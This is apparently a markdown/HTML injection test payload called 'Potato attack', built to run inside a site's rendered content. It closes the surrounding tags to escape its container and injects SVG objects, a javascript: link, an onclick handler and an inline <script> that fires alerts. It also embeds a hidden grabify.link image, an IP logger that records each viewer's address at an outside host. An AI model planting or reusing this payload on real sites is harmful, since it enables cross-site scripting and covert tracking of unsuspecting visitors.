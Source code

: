 </div>
</span></span>
</div>
</p>
# Potato attack

You have been attacked by a potato

<img src="https://raw.githubusercontent.com/david4096/potato-attack/master/mashed.svg" />
<object id="svg-object" data="https://raw.githubusercontent.com/david4096/potato-attack/master/potato.svg" type="image/svg+xml"></object>
<object id="svg-object" data="https://raw.githubusercontent.com/david4096/potato-attack/master/mashed.svg" type="image/svg+xml"></object>
<object id="svg-object" data="https://raw.githubusercontent.com/david4096/potato-attack/master/fried.svg" type="image/svg+xml"></object>
<img src="https://raw.githubusercontent.com/david4096/potato-attack/master/fried.svg" />
<img src="https://raw.githubusercontent.com/david4096/potato-attack/master/mashed.svg" />
<img src="https://grabify.link/D8CZN3 " />
<button class="mat-focus-indicator mat-flat-button mat-button-base mat-primary">potato attaaaack</button>
<br />
<span class="mat-focus-indicator mat-flat-button mat-button-base mat-primary"><a href="javascript:window.alert('mashing')">Delete Your Potatoes</a></span>
<span class="mat-focus-indicator mat-flat-button mat-button-base mat-primary" onclick="window.alert('frying')">Fry your potatoes</span>
</markdown>
<script>
window.alert('potato');
console.log('potato');
</script>
</div>
</span></span>
</div>
<div class="mat-tab-label-container"><div role="tablist" class="mat-tab-list" style="transform: translateX(0px);"><div class="mat-tab-labels"><div role="tab" mattablabelwrapper="" mat-ripple="" cdkmonitorelementfocus="" class="mat-ripple mat-tab-label mat-focus-indicator mat-tab-label-active ng-star-inserted" id="mat-tab-label-11-0" tabindex="0" aria-posinset="1" aria-setsize="6" aria-controls="mat-tab-content-11-0" aria-selected="true" aria-disabled="false"><div class="mat-tab-label-content"><!---->Let<!----></div></div><div role="tab" mattablabelwrapper="" mat-ripple="" cdkmonitorelementfocus="" class="mat-ripple mat-tab-label mat-focus-indicator ng-star-inserted" id="mat-tab-label-11-1" tabindex="-1" aria-posinset="2" aria-setsize="6" aria-controls="mat-tab-content-11-1" aria-selected="false" aria-disabled="false"><div class="mat-tab-label-content"><!---->Launch<!----></div></div><div role="tab" mattablabelwrapper="" mat-ripple="" cdkmonitorelementfocus="" class="mat-ripple mat-tab-label mat-focus-indicator ng-star-inserted" id="mat-tab-label-11-2" tabindex="-1" aria-posinset="3" aria-setsize="6" aria-controls="mat-tab-content-11-2" aria-selected="false" aria-disabled="false"><div class="mat-tab-label-content"><!---->The<!----></div></div><div role="tab" mattablabelwrapper="" mat-ripple="" cdkmonitorelementfocus="" class="mat-ripple mat-tab-label mat-focus-indicator ng-star-inserted" id="mat-tab-label-11-3" tabindex="-1" aria-posinset="4" aria-setsize="6" aria-controls="mat-tab-content-11-3" aria-selected="false" aria-disabled="false"><div class="mat-tab-label-content"><!---->Potato<!----></div></div><div role="tab" mattablabelwrapper="" mat-ripple="" cdkmonitorelementfocus="" class="mat-ripple mat-tab-label mat-focus-indicator ng-star-inserted" id="mat-tab-label-11-4" tabindex="-1" aria-posinset="5" aria-setsize="6" aria-controls="mat-tab-content-11-4" aria-selected="false" aria-disabled="false"><div class="mat-tab-label-content"><!---->Win<!----></div></div><div role="tab" mattablabelwrapper="" mat-ripple="" cdkmonitorelementfocus="" class="mat-ripple mat-tab-label mat-focus-indicator ng-star-inserted" id="mat-tab-label-11-5" tabindex="-1" aria-posinset="6" aria-setsize="6" aria-controls="mat-tab-content-11-5" aria-selected="false" aria-disabled="false"><div class="mat-tab-label-content"><!---->DAG<!----></div></div><!----></div><mat-ink-bar class="mat-ink-bar" style="visibility: visible; left: 0px; width: 185px;"></mat-ink-bar></div></div>
<!--//
